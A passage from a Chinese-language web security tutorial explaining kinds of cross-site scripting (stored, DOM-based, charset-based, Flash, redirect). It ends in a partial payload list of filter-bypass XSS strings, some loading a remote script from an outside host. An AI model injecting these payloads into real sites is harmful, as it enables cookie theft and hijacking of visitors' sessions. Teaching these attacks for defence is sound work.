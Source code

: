 ​	可以看到，存储型XSS的攻击方式能够将恶意代码永久地嵌入一个页面当中，所有访问这个页面的用户都将成为受害者。如果我们能够谨慎对待不明链接，那么反射型的XSS攻击将没有多大作为，而存储型XSS则不同，由于它注入的往往是一些我们所信任的页面，因此无论我们多么小心，都难免会受到攻击。可以说，存储型XSS更具有隐蔽性，带来的危害也更大，除非服务器能完全阻止注入，否则任何人都很有可能受到攻击。

#### 3、DOM-based 型

​	客户端的脚本程序可以动态地检查和修改页面内容，而不依赖于服务器端的数据。例如客户端如从 URL 中提取数据并在本地执行，如果用户在客户端输入的数据包含了恶意的 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到 DOM-based XSS 攻击。需要特别注意以下的用户输入源 document.URL、 location.hash、 location.search、 document.referrer 等。

#### 4、基于字符集的 XSS

​	哪怕现在很多的浏览器以及各种开源的库都专门针对了 XSS 进行转义处理，尽量默认抵御绝大多数 XSS 攻击，但是还是有很多方式可以绕过转义规则，让人防不胜防。比如「基于字符集的 XSS 攻击」就是绕过这些转义处理的一种攻击方式，比如有些 Web 页面字符集不固定，用户输入非期望字符集的字符，有时会绕过转义过滤规则。

​	可以形成「基于字符集的 XSS 攻击」的原因是由于浏览器在 meta 没有指定 charset 的时候有自动识别编码的机制，所以这类攻击通常就是发生在没有指定或者没来得及指定 meta 标签的 charset 的情况下。

#### 5、基于 Flash 的跨站 XSS

​	基于 Flash 的跨站 XSS 也是属于反射型 XSS 的一种，AS 脚本可以接受用户输入并操作 cookie，攻击者可以配合其他 XSS（持久型或者非持久型）方法将恶意 swf 文件嵌入页面中。主要是因为 AS 有时候需要和 JS 传参交互，攻击者会通过恶意的 XSS 注入篡改参数，窃取并操作cookie。

#### 6、未经验证的跳转 XSS

​	有一些场景是后端需要对一个传进来的待跳转的 URL 参数进行一个 302 跳转，可能其中会带有一些用户的敏感（cookie）信息。如果服务器端做302 跳转，跳转的地址来自用户的输入，攻击者可以输入一个恶意的跳转地址来执行脚本。

### 五、Xss-Payload

```
等效替换（绕过方式）

<script>alert(1)</script>

<svg onload=alert(1)>

<a href=javascript:alert(1)>

<a href='javascript:alert(1)'>aa</a>

<img src=1 onerror=alert('xss')>

<a href='#' onclick=alert('xss')>test</a>

(1)普通的 XSS JavaScript 注入
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(2)IMG 标签 XSS 使用 JavaScript 命令
<IMG SRC=http://3w.org/XSS/xss.js/>

(3)IMG 标签无分号无引号
<IMG SRC=javascript:alert('XSS')>

(4)IMG 标签大小写不敏感
<IMG SRC=JaVaScRiPt:alert('XSS')>

(5)HTML 编码(必须有分号)
<IMG SRC=javascript:alert("XSS")>

(6)修正缺陷 IMG 标签
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

(7)formCharCode 标签(计算器)
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

(8)UTF-8 的 Unicode 编码(计算器)
```